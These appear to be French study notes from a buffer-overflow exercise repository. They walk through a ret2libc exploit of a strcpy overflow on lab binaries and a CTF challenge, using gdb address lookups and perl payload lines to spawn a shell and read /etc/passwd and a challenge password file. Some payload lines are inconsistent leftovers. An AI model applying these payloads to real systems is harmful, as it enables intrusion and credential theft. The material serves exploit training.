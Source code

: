 # Return Oriented Programming : Ret2libc

- On charge "cat /etc/passwd" dans une variable d'env
- On utilise un paramètre avec strcopy pour faire un ret2libc vers system et exécuter ce payload

- gdb ex3
- r test
- p system
(gdb) p system
$1 = {int (const char *)} 0xf7dcf910 <__libc_system>

On récupère l'adresse de system


On cherche la variable d'env
```show environment```
Liste les variables

On réucupère l'addresse de la bonne variable d'environnement :
```(gdb) x/s *((char **)environ+18)
0xffffd811:     "pwn_string=cat /etc/passwd"```

On récupère l'addresse de exit pour éviter une erreur:
(gdb) p exit
$3 = {void (int)} 0xf7dbed50 <__GI_exit>


$(perl -e 'print "A"x40 . "\x11\xd8\xff\xff" . "\x10\xf9\xdc\xf7" . "\x50\xed\xdb\xf7"')

<@system><@exit><@"/cat /etc/passwd">
r $(perl -e 'print "B"x28  . "\x10\xf9\xdc\xf7" . "\x50\xed\xdb\xf7". "\x75\xdf\xff\xff"')

r $(perl -e 'print "AAA%AAsAABAA$AAnAACAA-AA"."\x1c\xd8\xff\xff"."AA;AA."\x1c\xd8\xff\xff".AAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA"')


env -i MYVAR=10 gdb ./prog
env -i pwn_string="cat /etc/passwd" gdb-gef ./ex3

env = 0xffffdf75



On détermine EIP offset

gdb-peda

pattern create 50
r 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
pattern_offset


FUNCTIONNAL
env -i pwn_string="cat /etc/passwd" PWD=/mnt/c/Users/laure/git/buffer-overflow/ex3 ./ex3 $(perl -e 'print "B"x28  . "\x10\xf9\xdc\xf7" . "\x50\xed\xdb\xf7". "\xb3\xdf\xff\xff"')


La faille se trouve ici :

strcpy (message, argv[1]);

Dans un premier temps, dans gdb, on unset LINES et COLUMNS afin d’être dans le même environnement que hors gdb et ne pas avoir de problème avec les adresses (C’est un bon réflexe à avoir)

gdb$ unset env LINES
gdb$ unset env COLUMNS
Ensuite, on peut effectuer un buffer overflow. La sauvegarde de EIP est écrasée après les 32 premiers bytes du buffer.

gdb$ r $(perl -e 'print "A"x32 . "\xef\xbe\xad\xde"')
Your message: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ?

Program received signal SIGSEGV, Segmentation fault.
Cannot access memory at address 0xdeadbeef
0xdeadbeef in ?? ()
Il suffit alors de faire un retour à la libc. Pour cela, deux informations sont nécessaires. La première, l’adresse de system ensuite l’adresse de la chaine "/bin/sh".

Pour system, on la trouve facilement avec gdb

gdb$ p system
$8 = {<text variable, no debug info>} 0xb7e69060 <system>
Et pour /bin/sh, on peut faire une recherche un peu bourrine pour voir si elle est déjà mappée en mémoire

gdb$ find __libc_start_main,+99999999,"/bin/sh"
0xb7f8ac58
warning: Unable to access target memory at 0xb7fd1160, halting search.
1 pattern found.
Parfait. On a donc nos informations. On va alors réécrire la sauvegarde de EIP avec l’adresse de system. L’adresse suivante dans la pile sera l’adresse de retour de system. Elle ne nous intéresse pas, mais on pourrait très bien prendre l’adresse de exit pour rendre l’exploit plus ... propre

gdb$ p exit
$9 = {<text variable, no debug info>} 0xb7e5cbe0 <exit>
Et enfin, le argv[1] de system qui est l’adresse de /bin/sh

Ce qui nous donne pour l’exploit :

gdb$ r $(perl -e 'print "A"x32 . "\x60\x90\xe6\xb7" . "\xe0\xcb\xe5\xb7" . "\x58\xac\xf8\xb7"')
Your message: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`?????X???
sh-4.2$
Hors gdb, la même chose :

app-systeme-ch33@challenge02:~$ /challenge/app-systeme/ch33/ch33 $(perl -e 'print "A"x32 . "\x60\x90\xe6\xb7" . "\xe0\xcb\xe5\xb7" . "\x58\xac\xf8\xb7"')
Your message: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`?????X???
sh-4.2$ cat .passwd
